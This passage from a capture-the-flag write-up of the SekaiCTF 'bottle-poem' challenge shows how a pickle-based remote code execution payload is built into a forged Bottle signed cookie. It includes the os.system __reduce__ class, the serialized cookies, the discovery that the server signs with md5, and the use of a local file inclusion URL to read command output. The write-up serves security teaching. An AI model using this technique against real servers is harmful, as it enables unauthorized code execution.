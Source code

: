 session = {"name": PickleRCE()}
print(create_cookie("name", session, "trrrrrrrrrrrrryyyyyyyyyyyharddddddddd"))
```
Running the script gives us the following signed cookie.
```
!g7o/7hbTCgAIJqre+u/TkDIC3X1MSA9ACwepauUwzPM=?gAWVMQAAAAAAAABdlCiMBG5hbWWUfZRoAYwFcG9zaXiUjAZzeXN0ZW2Uk5SMBmV4aXQgMZSFlFKUc2Uu
```
This didn’t work though, as we are redirected to the guest template (which can also happen if there is an exception). A closer look at the cookies shows us that the our forged cookie hmac signature length is not the same length as the one we get from the server.
```
# sha256   !GVUngXs7KtEfo0AgW5WZrrtezkJU4EcIKVDZuTVhSfM=?gAWVLQAAAAAAAABdlCiMBG5hbWWUfZRoAYwFcG9zaXiUjAZzeXN0ZW2Uk5SMAmxzlIWUUpRzZS4=
# sha1     !FOWR0RQSmOp1ZQ9J1q5gJfxI2g0=?gAWVMQAAAAAAAABdlCiMBG5hbWWUfZRoAYwFcG9zaXiUjAZzeXN0ZW2Uk5SMBmxzIC1sYZSFlFKUc2Uu
# md5      !1gRqddQMsxxj/bethE9pzg==?gAWVMQAAAAAAAABdlCiMBG5hbWWUfZRoAYwFcG9zaXiUjAZzeXN0ZW2Uk5SMBmxzIC1sYZSFlFKUc2Uu
# actual   !o8siMrdaVf83giE8crJurg==?gAWVFwAAAAAAAACMBG5hbWWUfZRoAIwFZ3Vlc3SUc4aULg==
```
Trying different hashing functions, we find out that the server actually uses md5 in the hmac function, not sha256 as it is used in the GitHub repository.

So, having changed hashlib.sha256 to hashlib.md5, we can use the RCE on against the server. However, we face a new challenge. The template only gets rendered if the cookie value is guest or admin, and not our result (a number, as os.system returns an int), as we can see in the following snippet in the server source code:
```
if not session or session["name"] == "guest":
    session = {"name": "guest"}
    response.set_cookie("name", session, secret=sekai)
    return template("guest", name=session["name"])
if session["name"] == "admin":
    return template("admin", name=session["name"])
```
So, my next idea was to write the output to a file and read it out with the LFI we found in the beginning. As we are likely a user that has very few permissions on the server (shared instance RCE would otherwise be a disaster), I tried to locations that every user likely can write to: /tmp and /dev/shm:
```
# ...
class PickleRCE(object):
    def __reduce__(self):
        import os
        return (os.system,("ls -la > /dev/shm/norelect.txt",))
# ...
```
After creating the cookie and running the exploit, I tried to fetch the command results using the LFI url:

http://bottle-poem.ctf.sekai.team/show?id=/dev/shm/norelect.txt

```